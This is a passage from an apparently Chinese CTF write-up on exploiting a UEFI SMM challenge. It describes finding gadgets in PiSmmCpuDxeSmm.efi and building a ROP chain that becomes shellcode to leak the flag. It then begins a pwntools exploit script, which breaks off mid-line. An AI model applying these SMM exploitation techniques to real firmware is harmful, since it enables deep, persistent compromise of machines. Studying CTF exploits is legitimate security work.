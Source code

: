 ```python
        # lianpwn.lg_suc("offset", result[13] - smbase_value)
        subprocess.run("rm ./debug.log".split())
        # offset --> 0x16210
    io.close()
```

爆破下来只有 `gEfiSmmConfigurationProtocolGuid` 函数满足要求，位于驱动 `PiSmmCpuDxeSmm.efi` 中：
![[static/UEFI-image6.png]]

所幸上面用到的大部分 gadget 都可以在 `PiSmmCpuDxeSmm` 驱动中找到，包括 longjump、SmmClearMemoryAttributes 等。

接下来的利用思路就还是 ROP，因为找取指针的寄存器很麻烦，最后就转换成 Shellcode，借助 dump 或者逐位时间侧信道都可以获得 flag：

![[static/UEFI-image7.png]]
### Exploitation

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwn import *
import subprocess
import lianpwn

context.arch = "amd64"
context.log_level = "info"

rl = lambda a=False: io.recvline(a)
ru = lambda a, b=True: io.recvuntil(a, b)
rn = lambda x: io.recvn(x)
s = lambda x: io.send(x)
sl = lambda x: io.sendline(x)
sa = lambda a, b: io.sendafter(a, b)
sla = lambda a, b: io.sendlineafter(a, b)
ia = lambda: io.interactive()
dbg = lambda text=None: gdb.attach(io, text)
lg = lambda s_name, s_val: print("\033[1;31;40m %s --> 0x%x \033[0m" % (s_name, s_val))
i2b = lambda c: str(c).encode()
u32_ex = lambda data: u32(data.ljust(4, b"\x00"))
u64_ex = lambda data: u64(data.ljust(8, b"\x00"))

fname = "OVMF_VARS_copy.fd"
subprocess.call(["cp", "OVMF_VARS.fd", fname])
subprocess.call(["chmod", "u+w", fname])


def debug_with_addr():
    lg("SystemTable_addr", SystemTable_addr)
    lg("shellcode_addr", shellcode_addr)
    lianpwn.lg_suc("smm_buf_addr", smm_buf_addr)
    lianpwn.lg_suc("loong_jump_gadget", loong_jump_gadget)
    lianpwn.lg_suc("PiSmmCpuDxeSmm_base + 0x1000", PiSmmCpuDxeSmm_base + 0x1000)
    lianpwn.debugB()


io = process(
```